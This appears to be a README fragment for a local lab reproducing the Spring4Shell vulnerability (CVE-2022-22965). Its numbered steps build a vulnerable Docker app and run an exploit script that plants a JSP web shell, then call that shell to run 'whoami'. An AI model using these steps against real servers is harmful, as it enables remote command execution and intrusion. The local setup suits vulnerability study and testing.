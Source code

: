 1. mvn clean package
2. docker build . -t cve-2022-22965-exploit
3. docker run -p 8080:8080 cve-2022-22965-exploit
4. curl http://localhost:8080/exploit/greeting
5. python3 -m pip install -r requirements.txt
   python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="cmd"
   curl "http://localhost:8080/cmd.jsp?cmd=whoami"
